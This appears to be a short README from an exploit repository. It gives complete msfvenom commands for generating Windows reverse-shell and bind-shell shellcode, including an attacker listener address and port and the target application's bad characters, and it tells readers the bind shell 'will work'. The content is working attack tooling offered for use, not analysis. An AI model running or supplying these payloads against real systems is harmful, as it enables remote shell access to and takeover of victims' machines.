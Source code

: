 # This folder contains the exploit for both reverse_shell and bind_shell.

Reverse_Shell won't work for you.(:D) But try bind_tcp it will work.



### Command used to create Reverse_shell 

**msfvenom -p windows/shell_reverse_tcp lhost=192.168.176.130 lport=4444 -f c -a x86 -b "\x00\x0a\x0d" EXITFUNC=thread**
[Change lhost and lport accordingly.]




### Command used to create Bind_shell

**msfvenom -p windows/shell_bind_tcp lport=4444 -a x86 -b "\x00\x0a\x0d" -f c EXITFUNC=thread**




### Bad characters in Application

**"\x00\x0a\x0d"**

